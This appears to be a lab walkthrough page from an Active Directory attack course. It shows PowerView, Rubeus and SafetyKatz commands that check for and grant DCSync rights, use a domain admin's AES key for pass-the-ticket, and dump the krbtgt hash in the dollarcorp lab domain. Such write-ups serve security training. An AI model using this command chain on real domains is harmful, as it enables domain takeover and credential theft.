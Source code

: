 # 🪞 Check for DCSync rights, add them and pull hashes

First let's launch Powervew and look if we have replication rights

{% hint style="info" %}
Replication rights in Active Directory (AD) refer to the permissions that control which users or groups can replicate directory information between domain controllers. These rights are crucial for ensuring the integrity and security of the replication process within an AD environment.
{% endhint %}

We can check if we have replication rights using the following commands

```
. C:\AD\Tools\PowerView.ps1 
Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentx"}
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we don't have replication rights, let's add them. Start a process as Domain Administrator by running the below comman from an elevated command prompt:

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

this command will spawn a shell, now in the new process we can run the bypass command, run PowerView and then ->

```
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student613 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now on a normal shell we can go and look and check for out rights ->

```
Get-DomainObjectAcl -SearchBase"DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentx613"} 
```

Now we'll need to encode `lsadump::dcsync`

and launch this command:

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:dcorp\krbtgt" "exit"
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

